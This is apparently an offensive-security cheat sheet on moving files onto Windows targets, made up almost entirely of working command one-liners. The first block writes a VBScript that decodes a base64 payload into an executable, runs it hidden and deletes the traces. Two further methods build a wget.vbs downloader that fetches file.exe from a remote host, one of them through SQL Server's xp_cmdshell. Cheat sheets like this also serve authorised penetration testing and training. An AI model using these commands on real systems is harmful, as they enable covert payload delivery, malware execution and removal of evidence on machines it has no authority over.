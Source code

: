 ```cheat filetransfer write decoder
echo Set fs = CreateObject("Scripting.FileSystemObject") >>%TEMP%\decode.vbs & echo Set file = fs.GetFile("%TEMP%\payload.b64") >>%TEMP%\decode.vbs & echo If file.Size Then >>%TEMP%\decode.vbs & echo Set fd = fs.OpenTextFile("%TEMP%\payload.b64", 1) >>%TEMP%\decode.vbs & echo data = fd.ReadAll >>%TEMP%\decode.vbs & echo data = Replace(data, vbCrLf, "") >>%TEMP%\decode.vbs & echo data = base64_decode(data) >>%TEMP%\decode.vbs & echo fd.Close >>%TEMP%\decode.vbs & echo Set ofs = CreateObject("Scripting.FileSystemObject").OpenTextFile("%TEMP%\decoded.exe", 2, True) >>%TEMP%\decode.vbs & echo ofs.Write data >>%TEMP%\decode.vbs & echo ofs.close >>%TEMP%\decode.vbs & echo Set shell = CreateObject("Wscript.Shell") >>%TEMP%\decode.vbs & echo shell.run "%TEMP%\decoded.exe", 0, false >>%TEMP%\decode.vbs & echo Else >>%TEMP%\decode.vbs & echo Wscript.Echo "The file is empty." >>%TEMP%\decode.vbs & echo End If >>%TEMP%\decode.vbs & echo Function base64_decode(byVal strIn) >>%TEMP%\decode.vbs & echo Dim w1, w2, w3, w4, n, strOut >>%TEMP%\decode.vbs & echo For n = 1 To Len(strIn) Step 4 >>%TEMP%\decode.vbs & echo w1 = mimedecode(Mid(strIn, n, 1)) >>%TEMP%\decode.vbs & echo w2 = mimedecode(Mid(strIn, n + 1, 1)) >>%TEMP%\decode.vbs & echo w3 = mimedecode(Mid(strIn, n + 2, 1)) >>%TEMP%\decode.vbs & echo w4 = mimedecode(Mid(strIn, n + 3, 1)) >>%TEMP%\decode.vbs & echo If Not w2 Then _ >>%TEMP%\decode.vbs & echo strOut = strOut + Chr(((w1 * 4 + Int(w2 / 16)) And 255)) >>%TEMP%\decode.vbs & echo If  Not w3 Then _ >>%TEMP%\decode.vbs & echo strOut = strOut + Chr(((w2 * 16 + Int(w3 / 4)) And 255)) >>%TEMP%\decode.vbs & echo If Not w4 Then _ >>%TEMP%\decode.vbs & echo strOut = strOut + Chr(((w3 * 64 + w4) And 255)) >>%TEMP%\decode.vbs & echo Next >>%TEMP%\decode.vbs & echo base64_decode = strOut >>%TEMP%\decode.vbs & echo End Function >>%TEMP%\decode.vbs & echo Function mimedecode(byVal strIn) >>%TEMP%\decode.vbs & echo Base64Chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/" >>%TEMP%\decode.vbs & echo If Len(strIn) = 0 Then >>%TEMP%\decode.vbs & echo mimedecode = -1 : Exit Function >>%TEMP%\decode.vbs & echo Else >>%TEMP%\decode.vbs & echo mimedecode = InStr(Base64Chars, strIn) - 1 >>%TEMP%\decode.vbs & echo End If >>%TEMP%\decode.vbs & echo End Function >>%TEMP%\decode.vbs & cscript //nologo %TEMP%\decode.vbs & del %TEMP%\decode.vbs & del %TEMP%\payload.b64
```
## More VBS
### Method A oneliner works for Win7 cmd.exe   Special Chars: > & . ( ) , = "
```
echo strFileURL = WScript.Arguments.Item(0)  > wget.vbs & echo strHDLocation = WScript.Arguments.Item(1)  >> wget.vbs & echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") >> wget.vbs & echo objXMLHTTP.open "GET", strFileURL, false >> wget.vbs & echo objXMLHTTP.send() >> wget.vbs & echo If objXMLHTTP.Status = 200 Then >> wget.vbs & echo Set objADOStream = CreateObject("ADODB.Stream") >> wget.vbs & echo objADOStream.Open >> wget.vbs & echo objADOStream.Type = 1 >> wget.vbs & echo objADOStream.Write objXMLHTTP.ResponseBody >> wget.vbs & echo objADOStream.Position = 0 >> wget.vbs & echo Set objFSO = Createobject("Scripting.FileSystemObject") >> wget.vbs & echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> wget.vbs & echo Set objFSO = Nothing >> wget.vbs & echo objADOStream.SaveToFile strHDLocation >> wget.vbs & echo objADOStream.Close >> wget.vbs & echo Set objADOStream = Nothing >> wget.vbs & echo End if >> wget.vbs & echo Set objXMLHTTP = Nothing >> wget.vbs
```
execute:
```
cmd.exe /c "cscript wget.vbs http://192.168.2.200/file.exe file.exe"
```

### Method B oneliner needs TESTING via XP_cmdshell   Special Chars: > & . ( ) , = "
```
exec master..xp_cmdshell 'cmd /c "echo strFileURL = WScript.Arguments.Item(0)  > C:\temp\wget.vbs & echo strHDLocation = WScript.Arguments.Item(1)  >> C:\temp\wget.vbs & echo Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") >> C:\temp\wget.vbs & echo objXMLHTTP.open "GET", strFileURL, false >> C:\temp\wget.vbs & echo objXMLHTTP.send() >> C:\temp\wget.vbs & echo If objXMLHTTP.Status = 200 Then >> C:\temp\wget.vbs & echo Set objADOStream = CreateObject("ADODB.Stream") >> C:\temp\wget.vbs & echo objADOStream.Open >> C:\temp\wget.vbs & echo objADOStream.Type = 1 >> C:\temp\wget.vbs & echo objADOStream.Write objXMLHTTP.ResponseBody >> C:\temp\wget.vbs & echo objADOStream.Position = 0 >> C:\temp\wget.vbs & echo Set objFSO = Createobject("Scripting.FileSystemObject") >> C:\temp\wget.vbs & echo If objFSO.Fileexists(strHDLocation) Then objFSO.DeleteFile strHDLocation >> C:\temp\wget.vbs & echo Set objFSO = Nothing >> C:\temp\wget.vbs & echo objADOStream.SaveToFile strHDLocation >> C:\temp\wget.vbs & echo objADOStream.Close >> C:\temp\wget.vbs & echo Set objADOStream = Nothing >> C:\temp\wget.vbs & echo End if >> C:\temp\wget.vbs & echo Set objXMLHTTP = Nothing >> C:\temp\wget.vbs "'
```
